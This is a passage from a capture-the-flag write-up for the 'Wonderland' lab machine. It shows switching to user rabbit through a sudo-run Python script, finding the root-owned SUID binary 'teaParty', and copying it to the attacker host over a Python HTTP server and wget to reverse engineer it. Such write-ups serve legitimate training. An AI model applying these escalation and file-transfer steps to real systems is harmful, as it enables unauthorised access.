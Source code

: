 ```bash
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ whoami
rabbit
```
# Privilege Escalation 2

Looking in the rabbit's home directory I find a file owned by root that is a SUID;

```bash
rabbit@wonderland:/home/rabbit$ ls
teaParty
rabbit@wonderland:/home/rabbit$ ls -la
total 40
drwxr-x--- 2 rabbit rabbit  4096 May 25  2020 .
drwxr-xr-x 6 root   root    4096 May 25  2020 ..
lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
rabbit@wonderland:/home/rabbit$ file teaParty
teaParty: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75a832557e341d3f65157c22fafd6d6ed7413474, not stripped
```
running the program

```bash
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Fri, 02 Dec 2022 21:11:01 +0000
Ask very nicely, and I will give you some tea while you wait for him
```

Well I don't want to wait an hour, lets spin up a server and grab the binary to reverse engineer it:

```bash
rabbit@wonderland:/home/rabbit$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.6.4.8 - - [02/Dec/2022 20:15:05] "GET /teaParty HTTP/1.1" 200 -
```

```bash
└─$ wget http://10.10.16.97:8000/teaParty                                               8 ⨯
--2022-12-02 15:14:05--  http://10.10.16.97:8000/teaParty
Connecting to 10.10.16.97:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16816 (16K) [application/octet-stream]
Saving to: ‘teaParty’

teaParty                100%[============================>]  16.42K  --.-KB/s    in 0.09s   

2022-12-02 15:14:05 (186 KB/s) - ‘teaParty’ saved [16816/16816]

```
